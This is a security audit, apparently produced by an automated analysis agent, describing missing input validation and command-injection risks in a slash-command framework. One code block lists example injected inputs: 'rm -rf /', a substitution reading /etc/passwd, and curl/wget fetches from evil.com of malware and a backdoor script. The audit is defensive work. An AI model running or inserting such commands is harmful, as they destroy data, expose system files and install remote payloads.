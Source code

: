 # Input Validation Gaps Analysis

**Agent**: Code Quality & Edge Case Analyzer  
**Date**: 2025-07-20  
**Framework Version**: 3.0.0  
**Analysis Scope**: Input validation across all command entry points and module interfaces  

## Executive Summary

The framework demonstrates **severe input validation deficiencies** with minimal validation at entry points and missing security controls throughout the system. Analysis reveals **38 critical validation gaps** across 7 vulnerability categories that create significant security and stability risks.

### Validation Security Score: **3.1/10**
- **Critical**: Command injection vulnerabilities
- **High**: Path traversal risks  
- **Medium**: Input sanitization gaps
- **Low**: Type validation coverage

## 1. Command Entry Point Validation

### 1.1 Command Parameter Injection ⚠️ **CRITICAL**

**Location**: All command modules (`/auto`, `/task`, `/feature`, `/query`, etc.)
**Risk**: Command injection, arbitrary code execution, system compromise

#### Vulnerable Entry Points:
```bash
# No input sanitization found in any command modules
/task "implement feature; rm -rf /"           # Shell injection
/query "analyze $(cat /etc/passwd)"           # Command substitution  
/feature "add auth `curl evil.com/malware`"   # Backtick injection
/auto "help; wget evil.com/backdoor.sh"       # Command chaining
```

#### Evidence from Code Analysis:
```xml
<!-- From intelligent-routing.md - NO input validation -->
<phase name="request_analysis" order="1">
  <actions>
    Parse user request for keywords and action verbs    <!-- Direct parsing, no sanitization -->
    Extract domain context and technical requirements   <!-- Unsafe extraction -->
    Identify scope indicators                          <!-- No validation -->
  </actions>
</phase>
```

#### Missing Protections:
- **Shell Metacharacter Filtering**: No filtering of `;`, `|`, `&`, `$()`, etc.
- **Command Substitution Prevention**: No protection against `$()` and backticks
- **Path Injection Prevention**: No validation of file paths in commands
- **Script Injection Prevention**: No protection against embedded scripts
